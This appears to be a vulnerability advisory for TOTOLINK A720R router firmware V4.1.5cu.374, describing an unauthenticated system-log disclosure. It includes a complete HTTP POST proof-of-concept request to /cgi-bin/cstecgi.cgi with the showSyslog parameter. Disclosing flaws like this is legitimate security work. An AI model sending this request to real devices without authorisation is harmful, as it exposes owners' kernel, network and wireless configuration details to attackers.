

# Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthenticated system log disclosure vulnerability. An attacker can exploit this flaw by sending a crafted POST request with the parameter `{"topicurl":"showSyslog"}` to `/cgi-bin/cstecgi.cgi`, exposing detailed system logs containing kernel-level debug information, network interface status changes, wireless configuration details, and low-level hardware operations.

# Poc

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 25
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"showSyslog"}
```

  

